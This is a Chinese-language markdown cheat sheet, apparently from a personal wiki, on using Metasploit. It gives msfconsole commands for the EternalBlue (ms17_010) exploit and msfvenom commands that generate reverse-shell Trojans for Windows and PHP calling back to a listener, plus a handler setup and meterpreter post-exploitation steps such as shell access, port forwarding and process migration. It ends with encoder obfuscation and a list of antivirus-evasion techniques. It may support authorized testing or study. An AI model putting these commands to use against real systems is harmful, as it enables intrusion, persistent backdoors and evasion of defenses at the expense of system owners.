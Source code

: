 ```yaml
---
title: 19.msf
description: msf渗透框架
published: 1
date: 2023-06-09T10:17:16.101Z
tags: web safe, msf
editor: markdown
dateCreated: 2023-04-19T17:46:07.123Z
---
```


<center>msf</center>



[toc]



## Msf

> metasploit 渗透测试框架 [msf](https://github.com/rapid7/metasploit-framework)
>
> pro功能强大



### 1.使用

```shell
# docker
docker pull metasploitframework/metasploit-framework
docker run -it -p 443:433 d4
# msfconsole
msfconsole

# 查看能使用的漏洞
show exploits

# 搜索
search xxx

# 使用 有规律的
use exploit/windows/smb/ms17_010_eternalblue

# 攻击载荷
show payloads

# 攻击信息
show options
set payload <name>
set lhost <host>
set rhost <host>

# 攻击
exploit/run

# 信息
show info
show tagets
# 检查 不能直接打死别人
check
```

> [msf17010](https://www.codenong.com/cs106870256/)

### 2.木马工具

> msfvenom 木马生成工具

```shell
# 生成木马 -p pyloads -LHOST 主机 -LPORT -f 文件类型
msfvenom -p windows/x64/vncinject/reverse_winhttp LHOST=192.168.1.13 LPORT=888 -f exe > ~/Desktop/shell.exe 


# msfconsole 使用木马监听模块
use exploit/multi/handler
set LHOST 192.168.1.13 
set LPORT 888

# 生成php木马  raw 源码    elf linux格式
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.13 LPORT=888 -f raw > shell.php

# 查看payload
msfvenom -l payload

# 查看代码混淆 -e
msfvenom -l encoders
# 生成文件格式 -f
msfvenom --list format
```



### 3. 会话

> meterpreter 管理木马 
>
> 逆向工具[csdn](https://blog.csdn.net/qq_20031585/article/details/125865535) 
>
> [ghidra](https://github.com/NationalSecurityAgency/ghidra)

```shell
help #帮助文档

# 使用 msf17_010永恒之蓝攻击win7

# 上传下载  那大文件这么办呢
upload/download

# 获取shell  乱码：chcp 65001
shell

# 搜索/编辑 文件
search/edit

# 端口转发
portfwd 

# 进程迁移 我们的木马进程注入到系统进程中
migrate

```



### 4. 木马混淆

> encoders 木马混淆

```shell
# 混淆代码 -e
msfvenom -l encoders 

msfvenom -p windows/x64/vncinject/reverse_winhttp -e x64/zutto_dekiru  LHOST=192.168.1.13 LPORT=888 -f exe  > ~/Desktop/shell.exe
```

>  如何免杀：防止杀软杀了我们
>
>  我们木马混淆就是免杀

```shell
# 一般二进制选手看杀软为何杀我们(了解工作流)
修改文件md5
    1. 添加无效数据(了解pe结构)
    2. 修改资源表
    3. 修改字符串
    4. 修改体积
修改指令(代码)
修改执行流程(加壳)
修改源码
```



### 5.流程

1. 找目标存在的漏洞
2. 使用该漏洞
3. 设置payload
4. 攻击













